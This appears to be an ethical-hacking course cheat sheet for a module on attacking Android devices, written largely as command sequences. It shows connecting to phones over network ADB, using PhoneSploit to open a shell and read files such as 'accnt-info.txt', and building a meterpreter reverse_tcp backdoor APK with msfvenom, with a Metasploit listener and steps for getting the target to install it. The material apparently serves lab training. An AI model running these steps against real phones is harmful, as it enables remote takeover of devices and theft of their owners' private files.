 # 17 - Hacking Mobile

## **Module 17 - Hacking Mobile Platforms**

###

###

### Download a file from Android using ADB Tool

```bash
adb devices -l

# Connection Establish Steps
adb connect 192.168.0.4:5555
adb devices -l
adb shell  

# Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```

### Download a file from Android using PhoneSploit

```bash
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
#OR
python3 -m pip install colorama

python3 phonesploit.py

# Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
# Type 4, to Access Shell on phone

pwd
ls
cd sdcard
ls
cd Download

#Download File using PhoneSploit
9. Pull Folders from Phone to PC

#Enter the Full Path of file to Download
sdcard/Download/secret.txt
```

### Check entropy and hash of elf file using ADB Tool

<pre class="language-bash"><code class="lang-bash">#Perform deep scan of the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value
<strong>
</strong><strong>adb connect 192.168.0.4:5555 # Connection Establish Steps
</strong>adb shell  

#1. check elf file with highest entropy
ls sdcard/scan #check if there're .elf files
sudo adb pull /sdcard/scan #download entire dir including .elf files
ent -h #ent tool options, if we haven't it: apt install ent
ent first_file.elf #Entropy value 3.28412 bits, it has highest value of entropy.
ent second_file.elf #Entropy value 1.15679 bits

#2. check the last 4 digits of SHA 384
sha384sum --help
sha384sum first_file.elf
#select only the last 4 digits of hash.
</code></pre>

## Generating and Executing Payloads for Android

#### Setup Android

* Open terminal, run `su`
* Run `ip addr add 10.10.10.69/24 dev eth0`

#### Generate Payload&#x20;

* `msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.10.11 R > Desktop/Backdoor.apk` R raw
* Host the payload and run a listener on Kali
* Type `use exploit/multi/handler`
* Type `set payload android/meterpreter/reverse_tcp`
* Type `set LHOST 10.10.10.11`
* Start listener, type `exploit -j -z`
* Browse link of file to start meterpreter session.

#### Exploit Execution

* Open kali hosted link.
* Download APK using es file downloader.
* Install and run.

### **Exploit the Android Platform through ADB using PhoneSploit**

* cd Phonesploit
* python3 -m pip install colorama
* python3 phonesploit.py
* 3
* 10.10.10.14
* 4
* pwd
* cd sdcard
* cd Download
* pwd
* cd sdcard
* cd downloads
* cat accnt-info.txt&#x20;
